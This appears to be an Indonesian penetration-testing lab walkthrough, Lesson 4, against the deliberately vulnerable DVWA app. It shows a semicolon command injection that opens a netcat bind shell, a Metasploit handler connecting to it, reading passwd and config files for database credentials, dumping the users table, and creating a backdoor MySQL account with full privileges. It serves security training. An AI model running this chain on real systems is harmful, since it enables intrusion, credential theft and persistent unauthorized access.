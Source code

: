 ## LESSON 4

Inti dari Lesson 4 adalah implementasi Metasploit command execution dengan menggunakan NetCat untuk memanipulasi database yang ada di dalam database DVWA. 

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Membuka koneksi menggunakan NetCat**
1. Akses website dari DVWA dengan cara

```
http://192.168.1.103/dvwa/login.php/;
```

**NOTE**
* Username dan Password default adalah **admin**/**password**

2. Masuk ke dalam **Command Execution** dan masukan command lalu klik **Submit**

```
192.168.1.103;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
```

Hasil yang akan didapat adalah:
![SS 1](LESSON_4/1.png)

**B. Menggunakan Metasploit untuk membuka koneksi ke NetCat**
1. Menjalankan Metasploit

**Application** -> **Backtrack** -> **Application** -> **Exploitation Tools** -> **Network Exploitation Tools** -> **Metasploit Framework** -> **msfconsole**

Hasil yang akan didapat adalah:
![SS 2](LESSON_4/2.png)

2. Menjalankan koneksi ke NetCat

```
use multi/handler
set PAYLOAD linux/x86/shell/bind_tcp
show options
set RHOST 192.168.1.103
exploit
```

Hasil yang akan didapat adalah:
![SS 3](LESSON_4/3.png)

3. Eksplorasi User Credentials

```
whoami
grep apache /etc/passwd
grep apache /etc/group
```

Hasil yang akan didapat adalah:
![SS 4](LESSON_4/4.png)

4. Eksplorasi Proses dan Directory Credentials

```
ps -eaf | grep http
pwd
ls -ld /var/www/html
ls -ld /var/www/html/dvwa
ls -l /var/www/html/dvwa
```

Hasil yang akan didapat adalah:
![SS 5](LESSON_4/5.png)

5. Eksplorasi Database Credentials

```
ls -l /var/www/html/dvwa/config
cat /var/www/html/dvwa/config/config.inc.php
```

Hasil yang akan didapat adalah:
![SS 6](LESSON_4/6.png)

**C. Eksplorasi MySQL**
1. Memperlihatkan Informasi DVWA Database

```
echo "show databases;" | mysql -uroot -psanisani
echo "use dvwa; show tables;" | mysql -uroot -psanisani
echo "use dvwa; desc users;" | mysql -uroot -psanisani
echo "select * from dvwa.users;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 7](LESSON_4/7.png)

2. Membuat User Baru di Tabel dvwa.users

```
echo "insert into dvwa.users values ('6','Sani','Sunny','sani9050',MD5('sanisani'),'NA');" | mysql -uroot -psanisani
echo "select * from dvwa.users;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 8](LESSON_4/8.png)

3. Menunjukkan Informasi pada Tabel MySQL

```
echo "show databases;" | mysql -uroot -psanisani
echo "use mysql; show tables;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 9](LESSON_4/9.png)

4. Membuat User Baru MySQL

```
echo "use mysql; GRANT ALL PRIVILEGES ON *.* TO 'sani_hacker'@'%' IDENTIFIED BY 'sanisani' WITH GRANT OPTION;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 10](LESSON_4/10.png)

```
echo "select * from mysql.user;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 11](LESSON_4/11.png)

